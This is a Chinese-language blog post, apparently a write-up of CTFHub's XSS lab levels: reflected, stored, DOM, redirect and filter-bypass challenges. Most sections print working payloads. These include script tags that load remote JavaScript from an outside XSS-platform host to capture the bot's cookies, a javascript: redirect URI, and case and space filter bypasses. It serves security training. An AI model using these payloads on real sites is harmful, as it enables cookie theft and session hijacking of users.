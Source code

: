 ```yaml
---
layout: post
title: CTFHub Web XSS
subtitle: CTFHub Web XSS
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. XSS

### 1.1. 反射型

![image](https://img.ghostliner.top/vPYvXZ.png)

```html
<script>alert(123)</script> #成功
```

注册 XSS 平台，填入 `<sCRiPt sRC=//xs.pe/s2x></sCrIpT>` 复制地址栏地址 sendURLtoBot

查看访问记录的 cookie

![image](https://img.ghostliner.top/gCTZA2.png)

### 1.2. 存储型

```html
<script>alert(123)</script> #成功
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/3bfA5q.png)

### 1.3. DOM 反射

```html
<script>alert(123)</script> #失败，发现是与原始script闭合导致
```

![image](https://img.ghostliner.top/MzoYuf.png)![image](https://img.ghostliner.top/bXxHxO.png)

```html
#补全，成功
</script><script>alert(123)</script>
</script><sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/9aszLX.png)

### 1.4. DOM 跳转

查看页面代码，可知需要构造 `?jumpto=xxx`

![image](https://img.ghostliner.top/JQjr1V.png)

```uri
http://challenge-e727a1e5d8b21242.sandbox.ctfhub.com:10800/?jumpto=javascript:alert(123)
```

成功

### 1.5. 过滤空格

```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/9LDH67.png)

```html
<sCRiPt/SrC=//xs.pe/s2x> #成功
```

![image](https://img.ghostliner.top/tzZv2B.png)

### 1.6. 过滤关键词

测试过滤 `script``img``onerror`

![image](https://img.ghostliner.top/8Rpv7u.png)

大写绕过

```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/o8kMjK.png)
